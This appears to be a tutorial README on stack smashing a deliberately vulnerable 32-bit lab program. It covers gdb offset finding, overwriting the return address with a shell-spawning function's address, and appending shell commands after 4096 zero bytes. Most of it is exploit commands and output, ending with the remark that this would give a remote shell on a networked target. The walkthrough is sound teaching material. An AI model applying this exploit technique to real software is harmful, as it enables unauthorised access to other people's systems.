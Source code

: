 # Stack Smashing Demo

Tested on Ubuntu 16.04 LTS

## Install toolchain for compiling for 32-bit

Since we are smashing the stack like it is 1995 anyway.

```
sudo apt-get install libc6-dev-i386
```

## Enable core dumps

First change the core file block-size limit from its default of 0

```
$ ulimit -c unlimited
```

Then change the `core_pattern` to something sensible. The following
always puts the core dump in the file 'core' but one can use e.g.
"core.%P" instead to append the process id to generate pseudo-unique
file names.

Note the following has to be run as root.

```
$ echo "core" > /proc/sys/kernel/core_pattern
```


## Crash the program, get control of EIP (program counter)

Here we use any long input. By convention we use a big string of AAAAs

````
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````

````
$ ./stackme < input.AAAA
````

````
$ gdb ./stackme core
... gdb output follows ...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
````

Note that the pc is at 0x41414141 ('AAAA') meaning that our input has eneded
up in the pc, so we have control over it.

## Using gdb to understand what is going on

To see how that happens, use gdb to set a breakpoint at the point at which
`copy_name` returns.

Use `disassemble copy_name` to find the address of the `ret` instruction:

```
(gdb) disassemble copy_name
...
0x08048581 <+50>:	ret
(gdb) b *0x08048581
```

When the breakpointis hit,  then confirm the
stack contents using the `x` instruction, at which point it looks like
this:
```
(gdb) x/4xw $esp
0xffffceec: 0x41414141	0x41414141	0x0000000a	0xf7fb45a0
```

Note `x/4xw` means print 4 words at the memory addressed by the stack
pointer. In any case, note that the stack pointer (i.e. saved return
address) is now 0x41414141.

You can examine the contents of the registers using `info registers` in
gdb.

## gef

Note that the `gef` tool gives very useful info when using gdb to examine
the execution of binaries and has a number of useful tools for exploit
development. See https://github.com/hugsy/gef

## Find the input that ends up being in the pc

The stack buffer is 32 bytes long. The return address turns out to live
at the fourth word after that on my 16.04 VM

This requires modifying some of the AAAAs to e.g. BBBB, CCCC, DDDD and
seeing which one ends up being in the PC

```
$ ./stackme < input.find_offset
```

```
$ gdb ./stackme core
...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x45454545 in ?? ()
```

## Exploit Step 1

In this trivial case, we write the pc so that the program executes
the 'some_function' function which, conveniently, gives us a shell.

gdb can identify the address of 'some_function' wince the program is
compiled -no-pie and so each function has a fixed global address

```
$ gdb ./stackme
...
(gdb) print some_function
$1 = {void ()} 0x804852b <some_function>
```

## Put that address into the input at the right offset

For this I use the 'hexedit' program to edit the input file

Remember it has to go in reverse order because x86 is little endian
So the input to get the program to jump to some_function looks like this
(the following is a hexdump)

```
00000000   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000010   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000020   42 42 42 42  43 43 43 43  44 44 44 44  2B 85 04 08  BBBBCCCCDDDD+...
```

This input is in the file `input.jump_to_func`. When we run the program
with this input note that it doesn't crash anymore and it also doesn't
print the final "Goodbye!" message. This means that the jump to
`some_function` has worked.

```
$ ./stackme < input.jump_to_func
Welcome to level 0

Please enter your name:

Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD+�FFFF
!
```

## Exploit Step 2

Now we need to make our exploit do something. The reason that, when
the input above causes the shell to be invoked, the program does nothing
is because the shell has no input to read. We need to give it some input.
It gets its input from stdin, i.e. from the input file we are iteratively
writing. So our commands to the shell have to go into that input.

(Note: these commands are *not* what is meant by the term "shellcode".
Shellcode is binary code that causes the program to execute a shell. Our
program already has a function for doing that, so we don't need to write
any shellcode. What we are writing here are textual commands that will be
read by the shell once it runs that instructs the shell to do something
on our behalf.)

It turns out that when the first data is read from stdin, internally
the kernel tries to read 4096 bytes of input. Then after the `execve`,
when the shell is running, the shell tries to read more 
input from stdin. Therefore, to reliably get the shell to read our commands,
we need to put them in the input file after the first 4096 bytes of input.

You can confirm this by running `strace ./stackme < input.jump_to_func`
and looking through the `strace` output of all the system calls. Look
especially for calls of the form `read(0,...)` which are reads to stdin,
and `execve` which are executions of new binaries.

```
$ strace ./stackme  < input.jump_to_func  2>&1 | grep 'read(0\|execve'
execve("./stackme", ["./stackme"], [/* 67 vars */]) = 0
read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 53
execve("/bin/sh", NULL, NULL)           = 0
read(0, "", 8192)                       = 0
```

We can get our shell commands into the input therefore by padding the
input with 4096 ASCII NUL charcters (byte 0x0 -- i.e. 4096 zero bytes).
These will be ignored by the shell anyway if it reads any. Our commands
can then come after that.

Make a file `zeros` with 4096 zero bytes in it:
```
$ dd if=/dev/zero of=zeros bs=4096 count=1
```

Make a file `shell_commands` with your shell commands in it.

Then stich these together with the input that jumps to `some_function`
and put the results into the file `input.exploit`:

```
$ cat input.jump_to_func zeros shell_command > input.exploit
```

```
$ ./stackme < input.exploit
```

Your shell commands should then be executed.

Of course you could have executed them yourself. But suppose
`stackme` was running over the network and you could give it input remotely.
You would now have a working shell on the remote computer.










